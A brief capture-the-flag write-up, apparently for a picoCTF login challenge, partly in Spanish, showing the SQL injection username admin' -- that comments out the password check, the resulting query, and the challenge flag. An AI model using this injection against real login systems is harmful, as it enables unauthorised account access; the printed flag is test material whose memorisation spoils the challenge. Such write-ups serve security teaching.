 #### Description

Can you login to this website?

Additional details will be available after launching your challenge instance.
#### Hints 

1

`admin` is the user you want to login as.

Solucion:

tomas como nomre  ->  admin' -- 
tomas de password 123
````
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='123'
`````

y luego ves el codigo fuente y hay estaba.
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}